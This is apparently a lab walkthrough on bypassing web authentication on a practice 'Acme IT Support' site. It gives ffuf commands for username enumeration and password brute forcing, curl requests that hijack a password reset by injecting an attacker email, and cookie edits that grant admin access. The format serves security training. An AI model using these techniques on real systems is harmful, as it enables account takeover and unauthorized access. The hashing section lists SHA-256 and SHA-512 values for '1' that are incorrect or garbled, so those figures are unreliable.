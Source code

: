 # Website Error Messages for Username Enumeration

Website error messages can be valuable resources for gathering information to build a list of valid usernames. For instance, on the Acme IT Support website’s signup page (http://MACHINE_IP/customers/signup), there’s a form to create a new user account.

If you try entering the username 'admin' and fill in the other fields with fake data, you'll receive an error: 'An account with this username already exists.' This error message can be leveraged to compile a list of valid usernames already registered in the system, using a tool like ffuf.

Username Enumeration with ffuf

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

In this example:

The -w flag specifies the location of the username wordlist on the system.

The -X flag sets the request method. By default, it's a GET request, but in our case, it’s a POST request.

The -d flag indicates the data being sent. Here, we have fields for username, email, password, and cpassword, with the username value set to FUZZ. The keyword FUZZ is used by ffuf to replace it with values from our wordlist in the request.

The -H flag is used to add additional headers to the request; in this instance, we set the Content-Type so the server recognizes it as form data.

The -u flag specifies the URL endpoint for the request.

Finally, the -mr flag looks for a specific response text (‘username already exists’) to confirm if a valid username is found.

# Brute Force

A brute force attack is an automated method that tests a list of commonly used passwords against either a single username or, as in our case, a list of usernames.

When executing this command, make sure your terminal is in the same directory as the valid_usernames.txt file.

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

This ffuf command is slightly different from the one used in Task 2. 

Previously, we used the FUZZ keyword to specify where in the request the data from the wordlists should be inserted. However, because we are using multiple wordlists here, we define our own placeholders. 

In this case:

- W1 represents our list of valid usernames.
- W2 represents the list of passwords we want to test.
- The multiple wordlists are indicated using the -w flag, separated by a comma. To determine a successful match, the -fc flag is used to filter for - HTTP status codes other than 200.

Executing this command will identify a working username and password combination that can be used to answer the question below.

# Logic Flaw

Sometimes, authentication processes contain logic flaws. A logic flaw occurs when the usual logical flow of an application is bypassed, manipulated, or circumvented by an attacker. 

These flaws can exist anywhere on a website, but here, we'll focus on examples related to authentication.

## Logic Flaw Example

Below is a mock code snippet that checks if the URL path begins with /admin. If it does, it performs an additional check to verify if the user is an admin. Otherwise, it displays the page:

```
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
In this example, the code uses === to check for an exact match, including case sensitivity. This presents a logic flaw because an unauthenticated user accessing /adMin will bypass the check and view the page, effectively bypassing the authentication process.

## Logic Flaw Practical

We will explore the Reset Password function on the Acme IT Support site (http://MACHINE_IP/customers/reset). The form requests an email associated with the account. If an invalid email is entered, the message "Account not found from supplied email address" appears.

For this example, using robert@acmeitsupport.thm as the email address will be accepted. The form then asks for the username associated with this email. Entering robert will confirm that a password reset email will be sent to robert@acmeitsupport.thm.

You may wonder about the vulnerability since both the email and username are required. However, let's illustrate how this can be exploited using curl requests.

 ```
 curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

The -H flag sets the header to inform the server that form data is being sent.
The server retrieves the account using the query string, but when sending the reset email, it uses the PHP variable $_REQUEST, which combines query string and POST data.

Exploit Using Curl :

By adding another parameter to the POST data, we can control the recipient of the password reset email:

```
curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

To proceed, create an account on the Acme IT support site, which provides you with a unique email address ({username}@customer.acmeitsupport.thm).

Run Curl Request 2 again, replacing the email with your own Acme IT email:

```
curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

This will create a support ticket with a link allowing you to log in as Robert. Using Robert’s account, you can access his support tickets and find the flag.

## Cookie Manipulation for Privilege Escalation

Editing cookies set by the web server during a session can sometimes lead to unauthorized access, higher privileges, or access to other users' data. Here's an example of modifying cookies to change user roles.

- Plain Text Cookies

Some cookies are stored in plain text, making them easy to understand and modify. For example, after a successful login, the following cookies might be set:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

The logged_in cookie controls if a user is logged in, and the admin cookie manages admin privileges. By altering these cookies, users might adjust their access level.

- Initial Request
Request the target page without modifying cookies:

```
curl http://MACHINE_IP/cookie-test
```
Response: Not Logged In

- User-Level Access
Modify the logged_in cookie to true while keeping admin as false:

```
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```

Response: Logged In As A User

- Admin Access
Set both logged_in and admin cookies to true:

```
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```

Response: Logged In As An Admin

### Hashing and Encoding in Cookies

Hashing turns data into a fixed-length hash, useful for irreversible transformations. For example, the string "1" hashed with different methods might produce:

- md5	c4ca4238a0b923820dcc509a6f75849b
- sha-256	6bb61e3f3b7f3af4e19d9b0e0f8ef5a5a3747a4dea2af221d4c910e52d0b7f54b
- sha-512	4df4fea34f0fba823f51d3f4f0a1b62eae0e5da579ccb851fdb9df8e4c58b2b37b89903a740e11e172da793a6e79d5605f7f9bd058a12b280433ed6fa46510a

Encoding transforms data into a readable format without encrypting it. Encoding methods like Base64 allow data to be transmitted over mediums that support only ASCII characters.

- Example:

```
Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/
```

Decoding the Base64 string reveals {"id":1,"admin":false}. Changing admin to true, re-encoding to Base64, and setting this in the cookie gives admin privileges.

















